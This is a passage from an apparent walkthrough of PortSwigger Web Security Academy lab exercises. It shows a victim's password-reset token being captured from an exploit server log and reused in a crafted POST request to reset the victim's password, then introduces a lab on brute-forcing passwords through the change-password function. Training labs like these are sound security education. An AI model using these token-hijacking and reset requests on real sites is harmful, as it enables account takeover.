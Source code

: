 Now go to the exploit server access log and wait till you see a record like the following.

```
/forgot-password?temp-forgot-password-token=f5jFP50E7lC7TuHE6tHZ3PkLBJMthplg HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"
```

now copy the reset token and send the POST request like the following.

```
POST /forgot-password?temp-forgot-password-token=[PASTE the reset token here] HTTP/2
Host: 0af80040036fb9c3c1408200007e00ec.web-security-academy.net
Cookie: session=UTCkA7KeHmmNpe4rATS6F1AXoQffWQ44
Content-Length: 103
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="111", "Not(A:Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0af80040036fb9c3c1408200007e00ec.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

temp-forgot-password-token=[Paste the reset token here]&new-password-1=carlos&new-password-2=carlos
```

Now log in using the password you give above and solve the lab.

##### LAB #12: Password brute-force via password change

Lab URL: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change

Given Credential: `wiener:peter`
Victim's Username: `carlos`

This lab has a login functionality using username and password and if any of these are incorrect they throw an error `incorrect username or password.` if we made too many incorrect logins they block our ip and we cannot make any new login request for 1 min.

The lab also has password change functionality after successful login in which we can change our current password by giving the previous password, new password, and confirming the password. Their requests are like the following.

```
POST /my-account/change-password HTTP/2
Host: 0a89004203b5bc15c1d13a1c004f00b7.web-security-academy.net
Cookie: session=4C4NLad6nFa0aRWCRLESQjeZALzuC24r; session=L7c1LaSpvBpPJ30jkJssT0J2XI5QQ5MA
Content-Length: 80
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a89004203b5bc15c1d13a1c004f00b7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

username=wiener&current-password=peter&new-password-1=peter&new-password-2=peter
```
